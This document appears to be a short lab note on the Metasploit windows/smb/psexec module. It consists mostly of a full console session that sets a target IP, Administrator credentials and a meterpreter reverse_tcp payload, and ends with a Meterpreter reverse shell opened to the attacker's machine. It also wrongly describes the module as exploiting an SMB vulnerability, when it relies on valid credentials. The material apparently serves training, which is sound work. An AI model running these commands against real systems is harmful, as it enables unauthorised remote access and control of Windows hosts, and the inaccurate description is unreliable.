 # Using psexec module 
- The "windows/smb/psexec" module is a module in the Metasploit Framework that enables an attacker to execute commands or upload payloads on a remote Windows host using the PsExec utility. 
- PsExec is a command-line utility that allows users to run commands on remote Windows system, and it is commonly used by system administors to perform tasks on remote machines. However, attackers can also use PsExec to run malicious code on remote machines.
- The "windows/smb/psexec" module in Metasploit leverages a vulnerability in the Windows SMB protocol to enable an attacker to execute arbitrary commands on a remote Windows host using PsExec. 

## Code - 
```python
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOST 192.168.216.11
RHOST => 192.168.216.11
msf6 exploit(windows/smb/psexec) > set SMBUSER Administrator
SMBUSER => Administrator
msf6 exploit(windows/smb/psexec) > set SMBPASS vagrant
SMBPASS => vagrant
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.216.9:4444 
[*] 192.168.216.11:445 - Connecting to the server...
[*] 192.168.216.11:445 - Authenticating to 192.168.216.11:445 as user 'Administrator'...
[*] 192.168.216.11:445 - Selecting PowerShell target
[*] 192.168.216.11:445 - Executing the payload...
[+] 192.168.216.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.216.9:4444 
[*] 192.168.216.11:445 - Connecting to the server...
[*] 192.168.216.11:445 - Authenticating to 192.168.216.11:445 as user 'Administrator'...
[*] 192.168.216.11:445 - Selecting PowerShell target
[*] 192.168.216.11:445 - Executing the payload...
[+] 192.168.216.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.216.11
[*] Meterpreter session 1 opened (192.168.216.9:4444 -> 192.168.216.11:49387) at 2023-03-12 12:55:44 +0530

meterpreter > 
```
